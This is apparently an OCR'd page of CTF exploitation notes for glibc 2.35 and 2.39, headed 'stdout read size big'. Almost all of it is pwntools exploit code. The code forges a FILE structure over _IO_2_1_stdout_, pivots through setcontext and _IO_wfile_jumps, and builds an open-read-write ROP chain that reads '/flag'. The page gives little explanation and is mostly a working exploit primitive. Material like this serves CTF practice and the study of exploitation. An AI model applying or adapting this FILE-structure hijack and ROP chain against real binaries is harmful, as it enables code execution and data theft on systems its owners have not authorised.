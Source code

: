 ‍

## stdout read size big

‍

- libc 2.35

- libc. 2.39

```python

fake_IO_addr = libc.sym['_IO_2_1_stdout_']

pay = flat({
    0x00: '  sh;',
    0x18: libc.sym['setcontext'] + 61,
    0x20: fake_IO_addr, # 0x20 > 0x18
    0x68: fake_IO_addr,                # rdi  #read fd
    0x70: 0,     # rsi  #read buf
    0x78: fake_IO_addr,     # rsi2  #read buf
    0x88: fake_IO_addr + 0x8,     # rdx  #read size
    0x90: 0x400,     # rdx2  #read size
    0x98: 0x23,     # rdx  #read size
    0xa0: fake_IO_addr,
    0xa8: libc.sym['setcontext'] + 294, # RCE2 ogg
    0xb0: libc.sym['read'], # RCE2 ogg
    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30 - 0x20,
    0xe0: fake_IO_addr,
    },filler=b'\x00')





pause()

libc.address = libc_addr
libc_rop = ROP(libc)
rax = libc_rop.find_gadget(['pop rax','ret'])[0]
rdi = libc_rop.find_gadget(['pop rdi','ret'])[0]
rsi = libc_rop.find_gadget(['pop rsi','ret'])[0]
m = 0
try:
    rdx = libc_rop.find_gadget(['pop rdx','ret'])[0];m = 1
except:
    rdx = libc_rop.find_gadget(['pop rdx','pop rbx','ret'])[0]; m = 2
syscall = libc_rop.find_gadget(['syscall','ret'])[0]

orw_rop_addr = fake_IO_addr # ret to addr
buf = orw_rop_addr + 0xa0 + m*3*8
orw_rop  = p64(rax) + p64(2) + p64(rdi) + p64(buf) + p64(rsi) + p64(0) + p64(rdx) + p64(0)*m + p64(syscall)
orw_rop += p64(rdi) + p64(3) + p64(rsi) + p64(buf) + p64(rdx) + p64(0x100)*m + p64(libc.sym['read'])
orw_rop += p64(rdi) + p64(1) + p64(rsi) + p64(buf) + p64(rdx) + p64(0x100)*m + p64(libc.sym['write'])
orw_rop += b'/flag'.ljust(0x10,b'\x00')







```